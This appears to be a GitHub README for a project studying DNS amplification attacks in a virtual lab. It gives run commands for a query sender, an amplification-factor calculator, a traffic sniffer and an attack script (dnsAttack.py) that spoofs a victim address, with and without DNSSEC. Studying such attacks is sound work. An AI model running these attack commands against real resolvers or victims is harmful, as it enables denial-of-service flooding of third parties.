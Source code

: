 # Development and Study of a DNS Amplification Attack in a Virtual Environment

The aim of this project was to implement the scripts on this Github repository in order to study the DNS Amplification attack in a controlled virtual environment. You will find various scripts within this project.

## DNS Query Script for Amplification Rate Calculation: sendQuery.py

To launch this script, simply run the following command from the folder containing the entire project on the attacker machine.

Without DNSSEC:
```bash
sudo python3.9 attack/sendQuery.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io -t 60
```
With DNSSEC:
```bash
sudo python3.9 attack/sendQuery.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io -t 60 --dnssec
```

## DNS Server Amplification Rate Calculation Script: calculateAF.py

To launch this script, simply run the following command from the folder containing the entire project on the server machine.

Without DNSSEC:
```bash
sudo python3 server/calculateAF.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io
```
With DNSSEC:
Without DNSSEC:
```bash
sudo python3 server/calculateAF.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io --dnssec
```

## DNS Traffic Sniffing Script: viewTraffic.py

To launch this script, simply run the following command from the folder containing the entire project on the victim machine.

Without DNSSEC:
```bash
sudo python3 victim/viewTraffic.py
```
With DNSSEC:
```bash
sudo python3 victim/viewTraffic.py --dnssec
```

## DNS Amplification Attack Script: dnsAttack.py

To launch this script, simply run the following command from the folder containing the entire project on the attacker machine.

Without DNSSEC:
```bash
sudo python3.9 attack/dnsAttack.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io -t 60 -n <Number of process>
```
With DNSSEC:
```bash
sudo python3.9 attack/dnsAttack.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io -t 60 -n <Number of process> --dnssec
```

## Scenarios of use

To illustrate how different scripts can be used to observe and study this attack, here are several videos featuring different usage scenarios.

### First Scenario

This scenario shows how an attacker can run the sendQuery.py script to launch DNS queries designed to measure amplification factors. This scenario also shows how to run the calculateAF.py script on the DNS server in order to calculate and observe amplification factors. Finally, this scenario shows how to run the viewTraffic.py script on the victim machine, in order to observe DNS traffic and performance on this machine.

#### Without DNSSEC
![](/video/dns-calculateAF-full.gif)
